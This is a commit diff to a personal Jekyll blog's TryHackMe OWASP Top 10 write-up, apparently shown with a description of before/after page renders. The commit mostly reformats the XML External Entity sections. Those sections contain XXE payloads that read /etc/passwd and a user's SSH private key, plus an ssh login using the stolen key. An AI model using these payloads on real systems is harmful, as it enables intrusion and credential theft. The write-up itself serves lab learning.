

Before and after one commit to 4n3i5v74/4n3i5v74.github.io, a Jekyll site: the page built from _posts/2021-02-10-tryhackme-owasp-top-10.md, in a window 1280 px wide and 1400 px high, scrolled down 4078 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Modified

```diff
--- a/_posts/2021-02-10-tryhackme-owasp-top-10.md
+++ b/_posts/2021-02-10-tryhackme-owasp-top-10.md
@@ -131,24 +131,23 @@
 ## Task 12 - [Severity 4] XML External Entity
 
 XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data.
-  - It allows to interact with any backend or external systems that the application can access and allow to read the file on that system.
-  - They can cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications.
-  - XXE may even enable port scanning and lead to remote code execution.
+- It allows to interact with any backend or external systems that the application can access and allow to read the file on that system.
+- They can cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application tomake requests to other applications.
+- XXE may even enable port scanning and lead to remote code execution.
 
 Two types of XXE attacks.
-  - In-band XXE attack can receive an immediate response to the XXE payload.
-  - Out-of-band XXE attacks (blind XXE), there is no immediate response from the web application and need to reflect the output of XXE payload to some other file or their own server.
+- In-band XXE attack can receive an immediate response to the XXE payload.
+- Out-of-band XXE attacks (blind XXE), there is no immediate response from the web application and need to reflect the output of XXE payload to some other file or their own server.
 
 
 ## Task 13 - [Severity 4] XML External Entity - eXtensible Markup Language
 
 XML (eXtensible Markup Language) is a markup language that defines set of rules for encoding documents in a format that is both human-readable and machine-readable. It is a markup language used for storing and transporting data.
-
-  - XML is platform-independent and programming language independent.
-  - The data stored and transported using XML can be changed at any point in time without affecting the data presentation.
-  - XML allows validation using DTD (Document Type Definition) and Schema.
-  - XML simplifies data sharing between various systems because of its platform-independent nature. XML data doesn’t require any conversion when transferred between different systems.
-  - XML document mostly starts with what is known as XML Prolog <?xml version="1.0" encoding="UTF-8"?>.
+- XML is platform-independent and programming language independent.
+- The data stored and transported using XML can be changed at any point in time without affecting the data presentation.
+- XML allows validation using DTD (Document Type Definition) and Schema.
+- XML simplifies data sharing between various systems because of its platform-independent nature. XML data doesn’t require any conversion whentransferred between different systems.
+- XML document mostly starts with what is known as XML Prolog <?xml version="1.0" encoding="UTF-8"?>.
 
 
 ## Task 14 - [Severity 4] XML External Entity - DTD
@@ -156,7 +155,7 @@
 DTD defines the structure and the legal elements and attributes of an XML document.
 
 Example DTD file `note.dtd`.
-{% capture code %}{% raw %}<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>{% endraw %}{% endcapture %} {% include code.html code=code %}
+{% raw %}<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>{% endraw %}
 
 The type of elements in `note.dtd` file is as below.
 {% capture code %}{% raw %}!DOCTYPE note -  Defines a root element of the document named note
@@ -169,14 +168,14 @@
 #PCDATA - Parseable Character DATA{% endraw %}{% endcapture %} {% include code.html code=code %}
 
 Example `note.xml` file referring to `note.dtd`.
-{% capture code %}{% raw %}<?xml version="1.0" encoding="UTF-8"?>
+{% raw %}<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE note SYSTEM "note.dtd">
 <note>
     <to>falcon</to>
     <from>feast</from>
     <heading>hacking</heading>
     <body>XXE attack</body>
-</note>{% endraw %}{% endcapture %} {% include code.html code=code %}
+</note>{% endraw %}
 
 
 ## Task 15 - [Severity 4] XML External Entity - XXE Payload
@@ -196,14 +195,14 @@
 
 Use `firefox` to load url `http://<ip>` and try the below payloads.
 
-{% capture code %}{% raw %}<!DOCTYPE replace [<!ENTITY name "feast"> ]>
+{% raw %}<!DOCTYPE replace [<!ENTITY name "feast"> ]>
     <userInfo>
         <firstName>falcon</firstName>
         <lastName>&name;</lastName>
-    </userInfo>{% endraw %}{% endcapture %} {% include code.html code=code %}
+    </userInfo>{% endraw %}
 
-{% capture code %}{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&read;</root>{% endraw %}{% endcapture %} {% include code.html code=code %}
+{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
+<root>&read;</root>{% endraw %}
 
 The first payload will display `falcon feast` and the second payload will display contents of system file `/etc/passwd`.
 
@@ -213,12 +212,12 @@
 Use `firefox` to load the url `http://<ip>`
 
 Use the following payloads to get the contents of `/etc/passwd`.
-{% capture code %}{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
-<root>&read;</root>{% endraw %}{% endcapture %} {% include code.html code=code %}
+{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
+<root>&read;</root>{% endraw %}
 
 There is one non-system user. Use the following payload to read the user's rsa private key.
-{% capture code %}{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/<user>/.ssh/id_rsa'>]>
-<root>&read;</root>{% endraw %}{% endcapture %} {% include code.html code=code %}
+{% raw %}<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/<user>/.ssh/id_rsa'>]>
+<root>&read;</root>{% endraw %}
 
 Copy the contents of payload output to new file. Change the permission of the file to be more stricter, like `chmod 400 <user>_id_rsa` and use `ssh` to login to the machine using downloaded user's ssh private key.
 {% capture code %}{% raw %}ssh -i <user>_id_rsa <user>@<ip>{% endraw %}{% endcapture %} {% include code.html code=code %}
```
